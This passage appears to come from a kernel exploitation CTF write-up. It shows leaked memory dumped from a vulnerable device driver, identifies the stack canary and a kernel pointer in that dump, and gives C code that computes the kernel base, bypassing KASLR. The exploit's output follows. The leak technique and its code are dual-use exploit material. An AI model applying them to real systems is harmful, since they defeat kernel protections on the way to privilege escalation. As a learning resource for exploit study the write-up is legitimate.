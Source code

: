 And we get:

    [...]
    [   55.272215] 192 bytes read from device
    Cycle: 24 ||| Idx: 0 ||| Content: 20656d6f636c6557
    Cycle: 24 ||| Idx: 1 ||| Content: 2073696874206f74
    Cycle: 24 ||| Idx: 2 ||| Content: 70206c656e72656b
    Cycle: 24 ||| Idx: 3 ||| Content: 6569726573206e77
    Cycle: 24 ||| Idx: 4 ||| Content: ffff982400130073
    Cycle: 24 ||| Idx: 5 ||| Content: 20000035a9000
    Cycle: 24 ||| Idx: 6 ||| Content: ffff982400136910
    Cycle: 24 ||| Idx: 7 ||| Content: 100020000
    Cycle: 24 ||| Idx: 8 ||| Content: 0
    Cycle: 24 ||| Idx: 9 ||| Content: ffff982400000000
    Cycle: 24 ||| Idx: 10 ||| Content: 0
    Cycle: 24 ||| Idx: 11 ||| Content: 0
    Cycle: 24 ||| Idx: 12 ||| Content: 0
    Cycle: 24 ||| Idx: 13 ||| Content: 0
    Cycle: 24 ||| Idx: 14 ||| Content: 9244ca3dbc6c9b00
    Cycle: 24 ||| Idx: 15 ||| Content: c0
    Cycle: 24 ||| Idx: 16 ||| Content: 9244ca3dbc6c9b00
    Cycle: 24 ||| Idx: 17 ||| Content: c0
    Cycle: 24 ||| Idx: 18 ||| Content: ffffffffba23e347
    Cycle: 24 ||| Idx: 19 ||| Content: 1
    Cycle: 24 ||| Idx: 20 ||| Content: 0
    Cycle: 24 ||| Idx: 21 ||| Content: ffffffffba1c89f8
    Cycle: 24 ||| Idx: 22 ||| Content: ffff982400136900
    Cycle: 24 ||| Idx: 23 ||| Content: ffff982400136900

We can see that at index 14/16 there is the kernel canary, the kernel base is at index  18/21 but we need to modify something, I chose the one at index 21 because is smaller...

    pwndbg> xinfo 0xffffffffba1c89f8
    Extended information for virtual address 0xffffffffba1c89f8:
    
      Containing mapping:
    0xffffffffba000000 0xffffffffba493000 rwxp   493000      0 <explored>
    
      Offset information:
             Mapped Area 0xffffffffba1c89f8 = 0xffffffffba000000 + 0x1c89f8

So we can translate this into c code:

    unsigned long canary;
    unsigned long kbase;

    unsigned long leak[24];
    read(fd, leak, sizeof(leak));
    canary = leak[16];
    kbase = leak[21] - 0x1c89f8;
    
Running it we get:
    
  

      ~ $ /exploit 
        [   18.702517] Device opened
        Device Opened!
        [   18.703565] 192 bytes read from device
        Canary: 98aeb1efa100ee00
        Kernel Base: ffffffffb8c00000
        [   18.705211] All device's closed
